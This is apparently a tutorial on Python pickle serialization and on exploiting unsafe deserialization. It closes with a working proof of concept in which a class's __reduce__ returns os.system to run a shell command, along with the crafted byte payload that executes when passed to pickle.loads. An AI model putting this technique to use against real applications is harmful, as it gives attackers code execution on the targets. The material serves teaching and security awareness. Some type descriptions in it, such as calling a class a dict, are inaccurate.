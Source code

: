 # Python Pickle Deserialization Exploitation

## Serialization in python

In python, the default library used for serialization and deserialization is [pickle](https://docs.python.org/3.6/library/pickle.html).

```pickle.dumps(python_object): => plain string representation of the object```

Here's an example code snippet to demonstrate what serialization with pickle looks like:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)

print(type(pickled_data))
print(pickled_data)
```

Running the code we get a serialized string that represents the ```user``` object.

```console
<class 'bytes'>
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x03bob\x94\x8c\x04role\x94\x8c\x05admin\x94u.'
```

This has now converted an object of type *dict* to a stream of bytes.

## Deserialization in python

When the data needs to be used, ```pickle.loads()``` is used to unpack and get the underlying object.

```pickle.loads(serialized_bytes): => original python object```

Here's an example to demonstrate deserialization with pickle:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)
unpickled_data = pickle.loads(pickled_data)

print(type(unpickled_data))
print(unpickled_data.username)
print(unpickled_data.role)
```

This code snippet serializes the user object of type *dict* to bytes and then deserializes it back to the *dict* object. The output is as follows:

```console
<class 'type'>
bob
admin
```

## Manipulating the behaviour of pickling/unpickling

Pickle provides a way to execute arbitrary commands through the use of its ```__reduce__()``` method. To understand how this is possible, we must first take a look at the working of the ```__reduce__()``` method.

### __reduce__() explained

Pickle has certain restrictions as in not every object can be serialized. Objects such as file handles and others come with certain restrictions. The pickle docs give an overview of [what can be pickled and unpickled](https://docs.python.org/3/library/pickle.html#what-can-be-pickled-and-unpickled).

For the special cases where an object cannot be pickled, pickle allows you to define custom behaviours of the pickling process for your class instances. Let's take an example of what happens when a file descriptor is serialized:

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

file_tester = Demo('/home/bob/test.txt')
pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor
```

As expected we get the following error:

```console
Traceback (most recent call last):
  File "test.py", line 22, in <module>
    pickle.dumps(file_tester)                   # Attempt to serialize an object containing a file descriptor
TypeError: cannot pickle '_io.BufferedWriter' object
```

This is where the ```__reduce__()``` method comes into play. We can define how we want pickle to serialize this object.

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_file = file_path
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

    def __reduce__(self):
        return(self.__class__, (self.some_file, ))     # Pass a blank object class and a tuple to pass to the class constructor

file_tester = Demo('/home/bob/test.txt')
saved_object = pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor

print("Serialized: ")
print(saved_object)
print("Deserialized: ")
print(vars(pickle.loads(saved_object)))    # Print vars of the deserialized object including the file descriptor
```

The ```__reduce__()``` method according to the python [docs](https://docs.python.org/3/library/pickle.html#object.__reduce__) needs a tuple of atleast 2 things:

1. A blank object class to call. In this case, ```self.__class__```
2. A tuple of arguments to pass to the class constructor. In this case it is a single string ```self.some_file``` which is the path to the file to open.

This time around we see that the object has been serialized. We deserialize it soon after and the output is as follows:

```console
Serialized:
b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94\x8c\x07/home/bob/test.txt\x94\x85\x94R\x94.'
Deserialized:
{'some_file': '/home/bob/test.txt', 'some_random_file': <_io.BufferedWriter name='/home/bob/test.txt'>}
```

Therefore, by using ```__reduce__()``` in a class whose instances we need to pickle, we can give the pickling process a callable plus some arguments to run. The purpose of the method is for reconstructing objects however, we can utilize this for code execution.

## Exploiting pickle

Now we abuse the reduce method by inserting code in it as follows:

```python
import pickle
import os

class Evil(object):
    def __reduce__(self):
        cmd = 'echo PWNED!!!'
        return (os.system, (cmd, ))

pickle_data = pickle.dumps(Evil())
print(pickle_data)
```

The output will produce the serialized byte stream: ```b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'```.
We can pass this as input to a vulnerable application that attempts to directly deserialize this without any sanitization. This is demonstrated as follows:

```python
import pickle

evil_input = b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'
unpickled_data = pickle.loads(evil_input)
```

On deserialization, the reduce method is called and as a result, code is executed:

```console
$ python3 test.py
PWNED!!!
```
